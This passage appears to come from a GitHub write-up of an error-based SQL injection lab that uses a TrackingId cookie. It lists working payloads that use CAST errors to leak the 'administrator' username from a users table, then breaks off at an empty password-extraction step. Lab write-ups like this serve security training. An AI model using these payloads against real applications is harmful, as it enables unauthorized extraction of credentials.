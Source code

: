 - **Payload**:
  ```sql
  Cookie: TrackingId=e00R0OKbtGq3H944';
  ```

- **Response**: Error revealing the backend query:
  ```sql
  SELECT * FROM tracking WHERE id = 'e00R0OKbtGq3H944''
  ```
![image](https://github.com/user-attachments/assets/efa7183b-c218-4e68-a85b-9c08e9902a2e)


### Step 2: Crafting CAST-Based Payload
Using `CAST` to induce errors:

- **Payload**:
  ```sql
  TrackingId=hxcQNYCw0qIfVGRe' AND CAST((SELECT 1) AS int)--
  ```

- **Response**: 500 Internal Server Error, indicating the `AND` condition requires a boolean expression.

![image](https://github.com/user-attachments/assets/b80ba310-6377-48a5-90d2-fdb3fcf32921)


- **Modified Payload** (adding boolean comparison):
  ```sql
  TrackingId=hxcQNYCw0qIfVGRe' AND 1=CAST((SELECT 1) AS int)--
  ```

- **Response**: HTTP 200 OK, returning category items, confirming the condition is true.

![image](https://github.com/user-attachments/assets/54c81f43-7e76-494c-a204-e8be7a1ce3b6)

### Step 3: Extracting Username
To retrieve the username from the `users` table:

- **Payload**:
  ```sql
  TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
  ```

- **Response**: 500 Internal Server Error due to query truncation.

![image](https://github.com/user-attachments/assets/8aac2700-95b7-4e3c-9baa-bb4c4dd9d3cc)


- **Optimized Payload** (removing `TrackingId` value and adding `LIMIT 1`):
  ```sql
  TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
  ```

- **Response**: Error revealing the username: `administrator`.

![image](https://github.com/user-attachments/assets/10f30c12-1dd6-4cde-b1f7-d8623c955b6b)

### Step 4: Extracting Password
To retrieve the administrator’s password:
